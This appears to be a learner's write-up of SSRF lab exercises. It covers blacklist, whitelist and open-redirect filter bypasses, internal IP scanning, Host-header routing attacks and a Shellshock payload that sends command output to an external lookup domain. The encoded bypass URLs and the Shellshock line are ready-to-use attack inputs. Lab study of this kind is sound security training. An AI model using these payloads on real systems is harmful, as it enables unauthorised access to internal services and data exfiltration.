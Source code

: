 
# Basic SSRF against the local server
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos
![[Pasted image 20230301202100.png]]
![[Pasted image 20230301202111.png]]
![[Pasted image 20230301202134.png]]
![[Pasted image 20230301202212.png]]
requesting to delete the user we get 401 Unauthorized but the delete is sent in form of GET request so we can repeat our SSRF using delete url to delete it
![[Pasted image 20230301203123.png]]
![[Pasted image 20230301203235.png]]
![[Pasted image 20230301203227.png]]

# Basic SSRF against another back-end system
This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal 192.168.0.X range for an admin interface on port 8080, then use it to delete the user carlos.

Using intruder to fuzz ip's
![[Pasted image 20230301204655.png]]

![[Pasted image 20230301204053.png]]

![[Pasted image 20230301204704.png]]
doing same as last challenge
![[Pasted image 20230301204747.png]]

# SSRF with blacklist-based input filter
his lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.
The developer has deployed two weak anti-SSRF defenses that you will need to bypass.

found out that blacklist doesn't prevent 127.1 which is same as 127.0.0.1

![[Pasted image 20230301210809.png]]
![[Pasted image 20230301210830.png]]
looks like admin is also blacklisted we can double url encode it to bypass filter
![[Pasted image 20230301211615.png]]
`http://127.1%2f%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65`
![[Pasted image 20230301211716.png]]
`http://127.1%2f%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos`


# SSRF with filter bypass via open redirection vulnerability
This lab has a stock check feature which fetches data from an internal system.
To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.
The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first.

![[Pasted image 20230301213147.png]]
![[Pasted image 20230301213215.png]]
we can abuse the redirect to do SSRF
changing path to other site url


![[Pasted image 20230301213929.png]]
![[Pasted image 20230301213939.png]]
it worked
taking the redirecting path and add it to stockAPI
![[Pasted image 20230301214138.png]]
![[Pasted image 20230301214250.png]]
`/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp://192.168.0.12:8080/admin`
`/product/nextProduct%3fcurrentProductId%3d1%26path%3dhttp://192.168.0.12:8080/admin/delete?username=carlos`


# SSRF with whitelist-based input filter
![[Pasted image 20230302171012.png]]
`http://127.0.0.1:80%25%32%33@stock.weliketoshop.net`
using # and double encoding it 
![[Pasted image 20230302172554.png]]
`http://127.0.0.1:80%25%32%33@stock.weliketoshop.net/admin`

# Blind SSRF with Shellshock exploitation
[Blind SSRF.pdf](https://www.safe.security/assets/img/research-paper/pdf/Blind%20SSRF.pdf)
`() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net`

# Routing-based SSRF
changing  Host header to the target ip address range and send it to intruder
![[Pasted image 20230302182120.png]]

![[Pasted image 20230302182140.png]]
found 302 
change all requests to be Host to be 192.168.0.152
getting csrf token from page
![[Pasted image 20230302183552.png]]
![[Pasted image 20230302183847.png]]
